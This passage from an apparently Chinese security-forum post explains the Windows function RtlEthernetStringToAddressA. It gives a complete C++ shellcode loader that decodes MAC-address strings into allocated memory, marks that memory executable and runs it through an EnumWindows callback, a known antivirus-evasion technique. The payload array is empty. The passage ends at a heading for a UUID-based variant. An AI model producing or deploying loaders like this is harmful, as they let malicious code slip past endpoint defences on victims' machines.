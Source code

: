 ![5.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e259061bffca3bc952c35dd752240b9d1e42d314.png)

### RtlEthernetStringToAddressA

我们使用此函数将MAC值从字符串形式转为二进制格式

```php
NTSYSAPI NTSTATUS RtlEthernetStringToAddressA(
  [in]  PCSTR    S,
  [out] PCSTR    *Terminator,
  [out] DL_EUI48 *Addr
);
```

第一个参数接收需要转换的数据，第二个参数用于接收指向终止转换字符串的字符的指针，第三个参数用于存储以太网 MAC 地址的二进制表示形式。

代码加载的思路也很简单，先申请一块内存空间，然后循环RtlEthernetStringToAddressA函数对其进行转换，最后修改内存保护常量。

```php
#include <windows.h>
#include <ip2string.h>
#include <iostream>

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;

int main() {
    const char* buf[] = { 0 };
    PCSTR lTerminator = NULL;
    DWORD pflOldProtect = 0;
    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf)*6, MEM_COMMIT, PAGE_READWRITE);

    DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
    int init = sizeof(buf) / sizeof(buf[0]);
    for (int i = 0; i < init; i++) {
        RPC_STATUS STATUS = RtlEthernetStringToAddressA((PCSTR)buf[i], &lTerminator, (DL_EUI48*)ptr);
        if (!NT_SUCCESS(STATUS)) {
            printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, GetLastError());
            return FALSE;
        }
        ptr += 6;
    }
    VirtualProtect(alloc_mem, sizeof(buf)*6, PAGE_EXECUTE, &pflOldProtect);
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
    return 0;
}
```

UUID实现内存加载
----------
